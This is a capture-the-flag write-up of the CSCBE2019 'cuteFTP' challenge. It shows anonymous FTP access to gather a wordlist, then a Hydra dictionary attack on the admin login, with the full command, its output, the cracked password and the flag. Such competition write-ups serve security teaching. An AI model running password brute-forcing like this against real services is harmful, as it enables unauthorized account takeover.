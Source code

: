 # cuteFTP

### [~$ cd ..](../)

Author: [alect096](https://alect096.github.io/CTFs/CSCBE2019/finals_saturday/cuteFTP/)

> A chaotic admin set up an FTP challenge but might have misplaced some files.  
> 63.35.125.97:21

We firstly logged in as anonymous without a password. We were able to access to some files and folders.

In those files we found a lot of pictures of cats, [lists of words](assets/kublaiBADPASSWORDS.list) and a [list of users](assets/users.list).
On the other hand we had a folder with subfolders representing the users. In the admin folder we found a [README.txt](assets/README.txt), here is the content:
> ```
>Please don't abuse this server! This FTP server is used to share my favourite  
>cats (there's only one thing I like more than cats). Feel free to browse through  
>them and download your favourites. If you want to add your own cats shoot me a mail   
>(darthcatlover9001@sharklasers.com) and I'll give you a user account. The cats you  
>add will then appear in the /users/username/public folder.
>If you're into lists instead of cats you might also like my other FTP server.  
>I sometimes get confused so if I misplaced a list on this server please let me know.
>~JarJar B. McPaws~
> ```

And a [thanksto.txt](assets/thanksto.txt) containing:
> ```
> Thanks to:
> -Maxogden (for helping me start my collection)
> -Charlottd
> -Charlottf
> -Dennis
> ```

Thanks to the list, we thought about launching a dictionary attack on the FTP service to try to log in with the admin account.

We decided to use Hydra to perform this action.

> ```sh
>hydra 52.17.165.245 ftp -l admin -P /root/Desktop/kublaiBADPASSWORDS.list
>Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or  
>secret service organizations, or for illegal purposes.
>Hydra (http://www.thc.org/thc-hydra) starting at 2019-03-30 11:29:09 	
>[DATA] max 16 tasks per 1 server, overall 16 tasks, 666 login tries  
>(l:1/p:666), ~42 tries per task
>[DATA] attacking ftp://52.17.165.245:21/
>[STATUS] 96.00 tries/min, 96 tries in 00:01h, 570 to do in 00:06h, 16 active
>[STATUS] 85.67 tries/min, 257 tries in 00:03h, 409 to do in 00:05h, 16 active
>	[21][ftp] host: 52.17.165.245   login: admin   password: cookies
>...
> ```

We are now able to log in with the admin account and the password cookies.

On this account we found a a file in the following path [/admin/flag.txt](assets/flag.txt): `CSC{I'm_a_flag-da-be-die-dabe-flag!}`
